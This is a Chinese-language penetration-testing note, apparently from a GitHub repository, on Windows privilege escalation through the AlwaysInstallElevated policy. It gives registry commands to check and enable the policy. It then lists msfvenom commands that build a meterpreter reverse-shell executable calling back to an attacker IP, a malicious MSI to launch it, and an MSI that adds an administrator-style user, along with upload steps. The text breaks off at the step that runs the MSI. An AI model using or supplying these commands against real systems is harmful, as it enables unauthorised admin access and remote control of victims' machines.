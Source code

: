 ##### AlwaysInstallElevated

判断是否启用此策略设置

```
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> 收到 `错误：系统无法找到指定的注册表项或值`的错误，则表示此注册表值从未创建。 说明策略没有启用。
>
> 收到 `AlwaysInstallElevated REG_DWORD 0x1`，说明策略已经启用。
>
> https://www.cnblogs.com/zpchcbd/p/11943147.html

启用`Always Install Elevated`

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Install (AlwaysInstalledElevated=1)
HKEY_CURRENT_USER\Software\Policies\Microsof\Windows\Installer (AlwaysInstalledElevated=1)
```

###### Always Install Elevated 提权利用1

1. 使用`msfvenom`生成恶意`MSI`程序上传

   生成执行此`payload`的可执行反向`shell payload （Payload.exe)`和`msi程序包`（ exec.msi ）

   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
   ```

2. 通过使用`Windows/exec`生成恶意`.MSI`作为`payload`

   ```bash
   msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > exec.msi
   ```

3. 上传恶意payload到目标机器

   ```
   upload Payload.exe C:\Users\testuser\AppData\Local\Temp\Payload.exe
   upload exec.msi C:\Users\testuser\AppData\Local\Temp\exec.msi
   ```

4. 生成添加用户的`MSI`程序

   ```bash
   msfvenom -p windows/adduser USER=test PASS=Password@123 --platform windows -a x86 -f msi-nouac -o test.msi
   ```

5. 运行恶意 MSI 程序
